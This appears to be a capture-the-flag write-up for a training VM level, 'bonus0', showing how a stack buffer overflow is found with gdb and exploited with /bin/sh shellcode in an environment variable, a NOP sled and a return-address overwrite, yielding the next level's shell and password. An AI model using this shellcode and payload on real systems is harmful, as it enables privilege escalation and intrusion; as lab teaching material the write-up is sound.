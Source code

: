 # Bonus0 - Code redirection using environnment variable

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus0 | `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728` |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus0 aaa
  -
  (stdin) a
  -
  (stdin) b
  > a b
```

There is 2 prompts, and it concatenates them.

Lets debug the binary

```shell
(gdb) info functions
0x080484b4  p
0x0804851e  pp
0x080485a4  main
```

See our assembly interpretation in [source file](../source.c)

We can see there is 2 prompts that read at most 4096. Then replace the first `\n` with a `\0`. And then extract 20 chars and concatenate them together.
But if there is no `\n` is the first 20 characters, there is a problem.

Lets check that together, what if we write exactly 20 chars.

```shell
./bonus0
   -
  (stdin) AAAAAAAAAAAAAAAAAAA # 19 chars
   -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
# It pass with 19 chars in the 1st prompt

./bonus0
  -
  (stdin) AAAAAAAAAAAAAAAAAAAA # 20 chars
  -
  (stdin) BBBBBBBBBBBBBBBBBBBB # 20 chars
  > AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)
```

It segfaults with 20 characters in the first buffer.

Lets debug that.

```shell
gdb-peda$ b*main+18
  (stdin) ABCDEFGHIJKLMNOPQRSTUVWXYZ (A-T 20)
  (stdin) abcdefghijklmnopqrstuvwxyz
gdb-peda$ run
gdb-peda$ x/50x $esp+0x16
  0xbffff616:[0x44434241	0x48474645	0x4c4b4a49	0x504f4e4d
  0xbffff626:	0x54535251][0x64636261	0x68676665  0x6c6b6a69
  0xbffff636:	0x706f6e6d	0x74737271][0xb7fd0ff4][0x63626120
  0xbffff646:	0x67666564	0x6b6a6968	0x6f6e6d6c	0x73727170]
  0xbffff656:	0xfd0ff474	0xc85800b7	0x0000b7fd	0xf61c0000

# [A-T][a-t][0xb7fd0ff4][a-c]' '[d-s]
# 20    20  4            3    1  16

gdb-peda$ continue
  EIP: 0x6d6c6b6a ('jklm')
  Invalid $PC address: 0x6d6c6b6a
  Stopped reason: SIGSEGV
  0x6d6c6b6a in ?? ()
```

Since we injected 20 chars in the prompts, there is like an overflow and it tries to access to the address `0x6d6c6b6a` ('jklm').

Maybe we could set a shellcode as environment variable, and redirect the code to the shellcode address.

We set the shellcode environment variable:

```shell
export SHELLCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

We get the shellcode address:

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff864 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff864 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff86e
```

Then we replace the part "jklm" in the second prompt with the shellcode address :

```shell
# First prompt: A * 4095 + '\n' (=> to fill exactly the first prompt)
# Second prompt: abcdefghi\x6e\xf8\xff\xbfnopqrstuvwxyz

python -c 'print "A" * 4095 + "\n" + "abcdefghi" + "\x6e\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10
```

Lets try in gdb

```shell
gdb-peda$ run < /tmp/exploit10
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
> process 6716 is executing new program: /bin/dash
```

It seems that works, lets try directly with the binary:

```shell
cat /tmp/exploit10 - | ~/bonus0
  AAAAAAAAAAAAAAAAAAAAabcdefghivnopqrst abcdefghivnopqrst
id
> Segmentation fault (core dumped)
```

Unfortunately, it works perfectly with gdb but not out of debugger.

In this [post](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it), the first contributor argues _"the stack addresses in the debugger may not match the addresses during normal execution"_.

So maybe our shellcode address is not exact.

Another contributor advices us to put some NOP Sled before our malicious code.

We will modify our shellcode and put some NOP Sled before the shellcode to approximate the exact shellcode address.

```bash
export SHELLCODE=$(python -c 'print "\x90" * 0xff + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

```shell
gdb-peda$ searchmem SHELLCODE
  [stack] : 0xbffff764 ("SHELLCODE=1\300Ph//shh/bin\211\343PS\211\341\260\v̀")
gdb-peda$ p 0xbffff764 + 10 # (length of "SHELLCODE=")
  $1 = 0xbffff76e

python -c 'print "A" \* 4095 + "\n" + "abcdefghi" + "\x76\xf8\xff\xbf" + "nopqrstuvwxyz"' > /tmp/exploit10

cat /tmp/exploit10 - | ~/bonus0
   -
   -
  > AAAAAAAAAAAAAAAAAAAAabcdefghiwnopqrst abcdefghiwnopqrst
  $ whoami
  > bonus1
  $ cat /home/user/bonus1/.pass
  > cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

---

## Sources

### Hack

- [Buffer overflow et variable d'environnement](https://www.hacktion.be/buffer-overflow-variable-environnement/)
- [Buffer overflow works in gdb but not without it](https://stackoverflow.com/questions/17775186/buffer-overflow-works-in-gdb-but-not-without-it)

### C

- [Man puts](https://linux.die.net/man/3/puts)
- [Man read](https://linux.die.net/man/3/read)
- [Man strchr](https://linux.die.net/man/3/strchr)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strncpy](https://linux.die.net/man/3/strncpy)
- [Man strcat](https://linux.die.net/man/3/strcat)
